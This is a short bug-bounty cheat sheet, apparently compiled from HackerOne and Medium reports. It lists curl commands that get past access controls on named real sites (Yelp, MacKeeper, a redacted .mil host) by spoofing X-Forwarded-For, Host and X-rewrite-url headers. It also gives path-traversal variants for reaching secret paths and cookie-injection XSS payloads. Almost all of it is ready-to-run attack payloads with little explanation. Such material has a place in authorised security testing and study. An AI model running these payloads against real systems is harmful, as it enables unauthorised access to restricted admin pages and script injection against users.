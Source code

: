












-------------------------
	
	Hackerone : 
		POC : 
			curl -k https://biz-app.yelp.com/status -H "X-Forwarded-For: 127.0.0.1"
			curl -k https://biz-app.yelp.com/swagger.json -H "X-Forwarded-For: 127.0.0.1"

		STEP : # NORMAL / PAYLOAD
			`````
				This request shows normal behavior
				curl -i -s -k -X $'GET' -H $'Host: account.mackeeper.com' $'https://account.mackeeper.com/admin/login'
				and returns 403
				Here you can see how we can bypass these restrictions
				curl -i -s -k -X $'GET' -H $'Host: account.mackeeper.com' -H $'X-rewrite-url: admin/login' $'https://account.mackeeper.com/'
			`````



	Medium :  
		POC : 
			curl -X ‘X-Forwarded-For: 127.0.0.1’ http://i-protected-by-host-based-auth.com/
			curl -H "Content-Length:0" -X POST https://www.███████.mil/██████████
			curl -X POST -H “Content-Length:0” https://www.xyz.com
			curl -i -s -k -X $’GET’ -H $’Host: sub.xyz.com’ -H $’X-rewrite-url: .htaccess’ $’https://sub.xyz.com/'

		`````
			curl -i -s -k -X $’GET’ -H $’Host: sub.xyz.com’ -H $’X-rewrite-url: .htaccess’ $’https://sub.xyz.com/'

			xyz.com/secret/*
			xyz.com/secret/./
			xyz.com/secret/
			xyz.com/%2f/secret.txt/
		`````

		STEP : # NORMAL / PAYLOAD
			# cookie injection / reflected 
			`````
				Normal : 	Cookie: RT=6bjzl0zEmBiPl0IQRSeN5wxxx; GA_countryCode=GBxxxxxx;
				Test : 		Cookie: RT=6bjzl0zEmBiPl0IQRSeN5wxxx; GA_countryCode=GB“><svg/on</script>load=alert`1`>
				POC : 		Cookie: RT=6bjzl0zEmBiPl0IQRSeN5wxxx; GA_countryCode=GB“-prompt`1`-”//;
			`````
